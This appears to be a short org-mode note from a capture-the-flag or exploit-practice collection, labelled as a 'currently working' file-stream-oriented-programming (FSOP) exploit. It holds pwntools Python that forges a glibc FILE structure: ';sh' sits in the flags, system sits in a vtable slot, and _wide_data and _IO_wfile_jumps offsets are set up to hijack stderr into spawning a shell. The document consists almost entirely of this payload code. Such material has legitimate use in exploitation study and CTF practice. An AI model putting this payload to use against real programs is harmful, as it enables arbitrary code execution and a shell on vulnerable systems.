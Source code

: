 * currently working fsop
#+BEGIN_SRC python
  file = FileStructure(0)
  file.flags = u64(p32(0xfbad0101) + b";sh\0")
  file._IO_save_end = libc.sym["system"]
  file._lock = libc.sym["_IO_2_1_stderr_"] - 0x10
  file._wide_data = libc.sym["_IO_2_1_stderr_"] - 0x10
  file._offset = 0
  file._old_offset = 0
  file.unknown2 = b"\x00"*24+ p32(1) + p32(0) + p64(0) + \
      p64(libc.sym["_IO_2_1_stderr_"] - 0x10) + \
      p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58) + \
      p64(0xfbad2887)
  # file.unknown1 = libc.sym["_IO_2_1_stderr_"] - 0x10

  # ptr yudai
  payload  = p32(0xfbad0101) + b";sh\0" # fp->_flags & _IO_UNBUFFERED == 0)
  payload += b"\x00" * (0x58 - len(payload))
  payload += p64(libc.sym["system"]) # vtable->iowalloc
  payload += b"\x00" * (0x88 - len(payload))
  payload += p64(libc.sym["_IO_2_1_stderr_"] - 0x10) # _wide_data (1)
  payload += b"\x00" * (0xa0 - len(payload))
  payload += p64(libc.sym["_IO_2_1_stderr_"] - 0x10) # _wide_data (1)
  payload += b"\x00" * (0xc0 - len(payload))
  payload += p32(1) # fp->_mode != 0
  payload += b"\x00" * (0xd0 - len(payload))
  payload += p64(libc.sym["_IO_2_1_stderr_"] - 0x10) # (1) _wide_data->vtable
  payload += p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58) # _IO_wfile_jumps + delta
  payload += p64(0xfbad2887)
#+END_SRC

